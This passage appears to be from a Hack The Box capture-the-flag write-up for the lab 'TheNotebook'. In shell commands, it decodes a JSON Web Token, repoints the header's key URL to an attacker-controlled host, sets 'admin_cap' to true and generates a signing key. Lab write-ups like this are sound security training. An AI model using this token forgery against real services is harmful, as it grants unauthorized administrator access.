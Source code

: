 It's a JSON Web Token! The token is built from three parts, each separated by a period (.) which is why we get 'base64: invalid input'.
Lets decode the first and second part of the token to get it's content.

FIRST PART:
  [root:/git/htb/thenotebook]# echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9" | base64 -d
    {"typ":"JWT","alg":"RS256","kid":"http://localhost:7070/privKey.key"}

SECOND PART:
  [root:/git/htb/thenotebook]# echo "eyJ1c2VybmFtZSI6InRlc3QxIiwiZW1haWwiOiJ0ZXN0QHRlc3QudGVzdCIsImFkbWluX2NhcCI6ZmFsc2V9" | base64 -d (master✱)
    {"username":"test1","email":"test@test.test","admin_cap":false}

The third, and last part is the signature. Here we can create our own signature to verify the token.
Manipulate values of the first part to look on a custom key on our local host, and on the second part set admin_cap to true.

FIRST PART (Manipulated):
  [root:/git/htb/thenotebook]# echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.12:7070/privKey.key"}'|base64
    eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4xMjo3MDcwL3ByaXZLZXkua2V5In0K

SECOND PART (Manipulated):
  [root:/git/htb/thenotebook]# echo '{"username":"test1","email":"test@test.test","admin_cap":true}'|base64                           (master✱)
    eyJ1c2VybmFtZSI6InRlc3QxIiwiZW1haWwiOiJ0ZXN0QHRlc3QudGVzdCIsImFkbWluX2NhcCI6dHJ1ZX0K

THIRD PART (Signature):
Create a SSH key to verify signature:
  [root:/git/htb/thenotebook]# ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key                                                   (master✱)
    Generating public/private rsa key pair.
    Enter passphrase (empty for no passphrase):
    Enter same passphrase again:
    Your identification has been saved in privKey.key
    Your public key has been saved in privKey.key.pub
    The key fingerprint is:
    SHA256:PTmSuqRWcPmVBLPoUWnFaXZ/5p4m1jpTL6VeMF+K2oQ root@nidus
    The key's randomart image is:
    +---[RSA 4096]----+
    |        +=..     |
    |       ooo* .    |
    |      oo.+ o .   |
    |    ..o. oo.  . o|
    |     o..S.=   o+.|
    |      .... + . *+|
    |     .o   E o ++=|
    |    .o .   + =o=o|
    |   .. .   . ooB. |
    +----[SHA256]-----+
